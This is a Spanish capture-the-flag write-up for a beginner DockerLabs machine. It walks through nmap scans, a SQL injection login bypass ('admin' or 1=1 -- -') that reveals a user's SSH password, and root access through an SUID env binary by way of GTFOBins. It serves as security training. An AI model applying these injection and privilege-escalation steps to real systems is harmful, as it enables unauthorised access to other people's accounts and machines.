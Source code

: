 #Writeups #VeryEasy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Comenzamos con un escaneo general de nmap:
```bash
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-23 11:07 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.22 seconds
```

Vemos que solo hay un servivio http con un ssh, vamos a escanearlos mas profundamente:

```bash
❯ sudo nmap -Pn -p80,22 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-23 11:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000028s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.43 seconds
```

Con esto, vamos al navegador y vemos que en el http esta alojada esta web:

![webInjection.png](assets/webInjection.png)


Despues de enumerar y buscar por la web no encontramos nada por lo que vamos a probar en el login una inyección sql:

Empezaremos con **admin' or 1=1 -- -** a ver que tipo de repuesta nos da la web.
Y la contraseña será un texto aleatorio.

![sqllogininject.png](assets/sqllogininject.png)

Y nos sale un caso positivo a la primera, Obtenemos acceso a la cuenta de un usuario:
![logedInj.png](assets/logedInj.png)

Vemos este mensaje:

**Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78**

por lo que ya tenemos un usuario y contraseña.

Vamos a probar iniciar sesión en el ssh con estas credenciales:

```bash
❯ ssh dylan@172.17.0.2
dylan@172.17.0.2 s password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.5.0-13parrot1-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@c5945d70c932:~$ 

```

Una vez dentro vemos que somos el ususario dylan, vamos a intentar conseguir root, como la maquina es very easy con buscar permisos sudo o suid seguramente ya nos valdrá:

Y efectivamente, vemos que tenemos suid de env

```bash
dylan@c5945d70c932:~$ whoami
dylan
dylan@c5945d70c932:~$ sudo -l
-bash: sudo: command not found
dylan@c5945d70c932:~$ find / -perm 4000 2>/dev/null
dylan@c5945d70c932:~$ find / -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/env
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
dylan@c5945d70c932:~$
```

Vamos a la web de gtfobins y buscamos el caso de env:
[GTFOBINS Web: /env](https://gtfobins.github.io/gtfobins/env/#suid)

y aplicando el comando que nos indica obtenemos root:

![rootInjection.png](assets/rootInjection.png)
